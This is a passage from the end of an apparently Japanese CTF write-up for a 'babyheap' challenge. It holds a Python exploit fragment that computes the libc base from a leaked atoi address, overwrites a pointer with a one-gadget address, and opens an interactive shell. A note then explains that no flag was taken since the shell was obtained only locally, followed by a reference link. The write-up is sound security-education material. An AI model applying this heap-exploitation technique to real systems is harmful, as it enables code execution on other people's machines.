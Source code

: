 ```python
    libc_base = atoi_addr - libc_atoi

    print(hex(libc_base))

    edit(s, p64(onegadget + libc_base))
    print(s.recvuntil("> "))
    s.send(b"2")

    s.interactive()

```

## flag

ローカルでシェル取っただけなので無し

## 参考文献
* https://bitbucket.org/ptr-yudai/writeups/src/master/2019/FireShell_CTF_2019/babyheap/